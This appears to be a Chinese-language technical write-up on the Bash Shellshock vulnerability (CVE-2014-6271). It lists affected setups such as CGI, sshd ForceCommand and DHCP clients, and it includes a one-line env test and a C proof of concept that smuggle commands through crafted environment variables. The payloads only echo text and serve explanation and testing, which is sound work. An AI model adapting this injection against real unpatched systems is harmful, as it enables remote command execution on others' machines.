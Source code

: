 Bourne Again Shell(简称BASH）是在GNU/Linux上最流行的SHELL实现，于1980年
诞生，经过了几十年的进化从一个简单的终端命令行解释器演变成了和GNU系统深
度整合的多功能接口。


--[ 1. CVE-2014-6271

法国GNU/Linux爱好者Stéphane Chazelas于2014年9月中旬发现了著名SHELL实现
BASH的一个漏洞，你可以通过构造环境变量的值来执行你想要执行的脚本代码，
据报道称，这个漏洞能影响众多的运行在GNU/Linux上的会跟BASH交互的应用程序，
包括:

** 在sshd配置中使用了ForceCommand用以限制远程用户执行命令，这个漏洞可以
  绕过限制去执行任何命令。一些Git和Subversion部署环境的限制Shell也会出
  现类似情况，OpenSSH通常用法没有问题。

** Apache服务器使用mod_cgi或者mod_cgid，如果CGI脚本在BASH或者运行在子
  SHELL里都会受影响。子Shell中使用C的system/popen，Python中使用
  os.system/os.popen，PHP中使用system/exec(CGI模式)和Perl中使用
  open/system的情况都会受此漏洞影响。

** PHP脚本执行在mod_php不会受影响。

** DHCP客户端调用shell脚本接收远程恶意服务器的环境变量参数值的情况会被
  此漏洞利用。

** 守护进程和SUID程序在环境变量设置的环境下执行SHELL脚本也可能受到影响。

** 任何其他程序执行SHELL脚本时用BASH作为解释器都可能受影响。Shell脚本不
  导出的情况下不会受影响。


我们先来看一个简单的POC：

1，本地SHELL环境中测试是否有漏洞：
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

如果存在漏洞会打印"vulnerable"。


2，C程序：
-----------------------------------------------------------------------------
/* CVE-2014-6271 + aliases with slashes PoC - je [at] clevcode [dot] org */
#include <unistd.h>
#include <stdio.h>
 
int main()
{
    char *envp[] = {
        "PATH=/bin:/usr/bin",
        "/usr/bin/id=() { "
        "echo pwn me twice, shame on me; }; "
        "echo pwn me once, shame on you",
        NULL
    };
    char *argv[] = { "/bin/bash", NULL };
 
    execve(argv[0], argv, envp);
    perror("execve");
    return 1;
}
